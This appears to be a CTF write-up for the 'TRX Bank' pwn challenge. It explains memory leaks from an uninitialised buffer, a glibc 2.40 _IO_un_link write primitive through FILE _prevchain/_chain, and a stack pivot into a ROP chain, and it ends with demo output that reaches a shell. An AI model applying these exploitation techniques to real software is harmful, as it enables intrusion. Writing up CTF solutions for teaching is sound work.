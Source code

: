 # TRX Bank (1 solve)

> To all our Valued Customers, at TRX Bank we aim to provide only
> the top-notch banking and customer experience; all reports about
> so-called "data leaks" are baseless slander from our competitors.
> nc bank.ctf.theromanxpl0.it 7010

---

I didn't solve this challenge on time (I was busy with other things).
However, this challenge is really interesting. "leave", "Marco"
and other solvers have given good hints after the CTF ended.

## Vulnerabilities

What we have:
* a un-init leak in `transfer()` (send `-` in transaction).
  If before calling `transfer`, we call:
  + `deposit()`:
    => leak pie (deposit + 266)
  + `close_account()`:
    => leak heap via index 29 of `tmp` buf.
  + `open_account()`:
    => leak stack address.
  + invalid option so `puts("invalid")` is called:
    => leak libc address.

What we can do with that:
* use `secret_backdor()` (check PIE), to write in range `fp_rand + 0x60:0xd8`.
  but since codecvt is memsetted to 0, we cannot use FSOP.
  + could set `fp_rand->_fileno = 0` to read from stdin instead of urandom.
  + point `fp->_lock` (offset 0x28) to a controlled mem, `(u64)fp->_lock = 0`
    whenever fd is read.

NEWS in glibc 2.40: `FILE._pad1` renamed to `_prevchain` ([Code][1]).
So `fclose` calls this:
```c
void
_IO_un_link (struct _IO_FILE_plus *fp)
{
  // redacted ...
      if (_IO_list_all == NULL)
  ;
      else if (_IO_vtable_offset ((FILE *) fp) == 0)
  {
    FILE **pr = fp->file._prevchain;
    FILE *nx = fp->file._chain;
    *pr = nx;
    if (nx != NULL)
      nx->_prevchain = pr;
```

So basically it is:
```
*(u64*)_prevchain = _chain
*(u64*)((u64)_chain + 0xb8) = _prevchain
```

It we set `fclose` saved-rbp to `_prevchain`, `_chain ` to rop address on heap,
we'll pivot the stack via `pop rbp; ret` (in `fclose()`) and `leave; ret`
(in `leave()`) gadgets.

[1]: https://elixir.bootlin.com/glibc/glibc-2.40/source/libio/genops.c#L82

## Caveats

* The `fd_rand` already pre-reads / buffers 0x1000 bytes from `/dev/urandom`.
  So you have to drain that buffer (by calling open and free acounts repeatedly)
  to make it read from stdin by overriding `fp_rand->_fileno = 0` in
  `secret_backdor()`.

* My solve script runs painfully slow on the remote (in fact it's just timeout).
  Kinda hard to optimize it with all the bruteforce for the leaks.

## Solve script

[run.py](./run.py)

Demon on local machine:
```bash
> py run.py
[+] Starting local process './chal_patched': pid 1095510
[*] -- step 1: leaking
[+] leak pie: Done
[*] LEAK: pie_leak = 0x55984e7ae545
[+] leak heap: Done
[*] LEAK: heap_leak = 0x559869949a00
[*] CALC: fp_rand_lock_addr = 0x559869948390
[+] leak stack: Done
[*] LEAK: stack_leak = 0x7fff0309cb88
[*] CALC: fclose_rbp_ptr = 0x7fff0309ca20
[+] leak libc: Done
[*] LEAK: libc_leak = 0x7f8fb928d05a
[*] -- step 2: write ropchains from stdin
[+] set fp_rand->_fileno=0 to prevent reading more from urandom: Done
[*] fp_rand buffers 0x1000 bytes from urandom
[*] we read 0x3bd bytes, remaining 0xc43 bytes
[+] draining fp_rand->buffer: Done
[*]     remaining 0x7 bytes
[*] Loaded 116 cached gadgets for './glibc/libc.so.6'
[*] remember to restore fd to be used in fclose(fp_rand)
[+] duration: 2.1514997482299805
[*] Switching to interactive mode
We're sorry to see you go! Your refund will arrive approximately in 83 days!
$ pwd
/home/hacker/ctfs/2025/trx/pwn/bank/dist
```
